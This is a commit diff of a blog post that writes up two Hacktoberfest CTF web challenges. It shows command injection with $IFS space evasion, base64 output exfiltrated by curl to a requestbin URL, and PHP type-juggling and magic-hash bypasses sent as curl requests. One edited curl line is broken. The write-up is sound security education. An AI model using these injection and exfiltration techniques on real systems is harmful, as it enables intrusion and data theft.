

Before and after one commit to 0xrabin/rabindra1337, a Jekyll site: the page built from _posts/2020-10-12-Web.md, in a window 1280 px wide and 1400 px high, scrolled down 990 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-10-12-Web.md

````diff
--- a/_posts/2020-10-12-Web.md
+++ b/_posts/2020-10-12-Web.md
@@ -31,7 +25,7 @@ So in my head I thought it as of
 `curl https://site`
 being executed whenever http/https word is used. So next step was to get code execution.
 
-At first I tried common bypasses like && || but since the output was not  being shown, I was not sure if the command was being executed.
+At first I tried common bypasses like `&&`, `||`,`;` but since the output was not  being shown, I was not sure if the command was being executed.
 
 So I thought of another approach to send command output to a url. I quickly setup a request bin url and crafted my payload using command substitution like
 
@@ -47,23 +41,41 @@ curl http://requestbin.net/r/1bvgn5b1/?output=base64output
 And through http://requestbin.net/r/1bvgn5b1?inspect I could view the requests being made to the site.
 
 Now that we have command execution with proper output. It was time to find the flag. Actually  using space in command was blocked. So I had to use $IFS instead for every command that contains space.
+
+
+
+
 For example: `$(ls -la)` became `$(ls$IFS-la)`.
+
+
+
 I looked around and found a file named `zhululu_2e3817293fc275dbee74bd71ce6eb056_FLAG_4e4d6c332b6fe62a63afe56171fd3725.txt` which contained the flag.
+
+
+
 Then I read the file using  `$(base64$IFS-w$IFS\0$IFS/zh*)`
+
+
 ```sh
 Sidenote
 There is \ before 0 because $IFS0 would simply escape 0 it is behaviour of $IFS to escape suffix if there is no use of symbols like -, | etc.
 ```
 
-On the request bin inspect tab I recieve ```Q29uZ3JhdHMhISBZb3UgbWFkZSB0aWxsIHRoZSBmbGFnIPCfjokKCgpHcmFiIGl0LCBpdCdzIGJlbG93OgpoYWNrdG9iZXJmZXN0X2N0ZntzaGVsbF9rZWtfcmljZV9mYmY4NjE5ZmY3ZjE1NjEzOWNkYWY0ZDdlM2UwNmQ3NX0K```
+On the request bin inspect tab I recieved
+
+`
+Q29uZ3JhdHMhISBZb3UgbWFkZSB0aWxsIHRoZSBmbGFnIPCfjokKCgpHcmFiIGl0LCBpdCdzIGJlbG93OgpoYWNrdG9iZXJmZXN0X2N0ZntzaGVsbF9rZWtfcmljZV9mYmY4NjE5ZmY3ZjE1NjEzOWNkYWY0ZDdlM2UwNmQ3NX0K
+`
 
 Decoding the base64 we get
+
+
 ```
 Congrats!! You made till the flag 🎉
 Grab it, it's below:
 hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}
 ```
-```hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}```
+`hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}`
 
 
 
@@ -71,7 +83,8 @@ hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}
 
 
 # WrestlePHP
-Challenge Description
+
+ Challenge Description
 >Can you beat PHP?
 
 >Here's something that could help you out
@@ -80,7 +93,7 @@ Challenge Description
 Hex Decoding 7068702e30646179676f642e78797a gives php.0daygod.xyz
 On visiting the site we are greeted with source code of the chall php.
 
- ```php
+```php
  <?php
 
     if($_SERVER['HTTP_USER_AGENT'] != "Yes, I am a human."){
@@ -126,52 +139,64 @@ On visiting the site we are greeted with source code of the chall php.
 ?>
 
 ```
+
+
 So lets follow along the source and solve the puzzle.
 ```php
 if($_SERVER['HTTP_USER_AGENT'] != "Yes, I am a human."){
        die("You are a bot, mate!");
    } else echo "Nice! Now that we know you are a human, you can proceed further.\n\n";
   ```
+
 First things first we need set out user-agent to "Yes, I am a human."
 
 `curl -A "Yes, I am a human." https://php.0daygod.xyz/`
+
+
+
 
 ```php
 if(apache_request_headers()["Sagarmatha-Hacktoberfest-CTF"] == "https://hacktober.tk/"){
        array_push($flag, "you");
    }
   ```
-  Now we need to add a header `Sagarmatha-Hacktoberfest-CTF` with value `https://hacktober.tk/`
+Now we need to add a header `Sagarmatha-Hacktoberfest-CTF` with value `https://hacktober.tk/`
 
-  `curl -A "Yes, I am a human." https://php.0daygod.xyz/ -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
+`curl -A "Yes, I am a human." https://php.0daygod.xyz/ -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
 
-  ```php
+
+
+
+```php
    if(isset($_GET['hello']) && $_GET['hello'] === "hi"){
        array_push($flag, "can't");
    }
-   ```
-   we need to add a get variable hello and set its value to hi
+```
+ we need to add a get variable hello and set its value to hi
 
-   `curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
+`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi" -"Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
 
-   ```php
+```php
    if($_GET['world'] != "0x10001" && strcasecmp($_GET['world'], "0x10001") == 0){
        array_push($flag, "see");
    }
-   ```
-   So here the flag part gets appended when get value of world is not equal to 0x10001 but also on the second part of if statement for it to be 0 world must be 0x10001
-   Luckily there is a bug for strcmp , strcasecmp where we can pass [] to bypass the check.
+```
 
-   `curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
+So here the flag part gets appended when get value of world is not equal to 0x10001 but also on the second part of if statement for it to be 0 world must be 0x10001
+Luckily there is a bug for strcmp , strcasecmp where we can pass [] to bypass the check.
+`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
 
-    ```php
+
+
+```php
     if(isset($_GET['nice']) && isset($_GET['ecin']))
        if($_GET['nice'] != $_GET['ecin']){
            if(sha1($_GET['nice']) == sha1($_GET['ecin'])){
                array_push($flag, "what");
            }
        }
-       ```
+```
+
 
 Here we need to pass two `get` params `nice` and `ecin` with different values but their sha1 values should be same in order for flag to be appended.
 We use use the type juggling vulnerability here and pass two different value of nice and ecin but the  beginning part of their sha1 should match containg 0e.
@@ -179,6 +204,7 @@ From this [list](https://raw.githubusercontent.com/spaze/hashes/master/sha1.md)
 So lets pass them
 
 `curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
+
 
 
 Similarly
@@ -193,14 +219,14 @@ Here we need find simlar value of ctf like in step above and pass it by POST
 `curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017"`
 
 
- ```php if(isset($_POST['parm']) && isset($_POST['mrap'])){
+```php if(isset($_POST['parm']) && isset($_POST['mrap'])){
        if(md5($_POST['parm']) == md5($_POST['mrap'])){
            if($_POST['parm'] != $_POST['mrap']){
                array_push($flag, "contains!");
            }
        }
    }
-   ```
+```
 Similarly for the last piece of code we find such two words `hello24343860700` and `hello24034989169` and pass those values to post params parm and mrap
 
 `curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017&parm=hello24343860700&mrap=hello24034989169"`
@@ -208,4 +234,4 @@ Similarly for the last piece of code we find such two words `hello24343860700` a
 And thus the final one liner
 `curl -sA "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017&parm=hello24343860700&mrap=hello24034989169"|grep -oE "Flag: hacktoberfest_ctf{.*}"`
 
-Flag: hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y_hehe_1337_0xcafebabe_cafedead}
+```Flag: hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y_hehe_1337_0xcafebabe_cafedead}```
````
Also changed, not shown: other parts of _posts/2020-10-12-Web.md (+1 -7 lines).
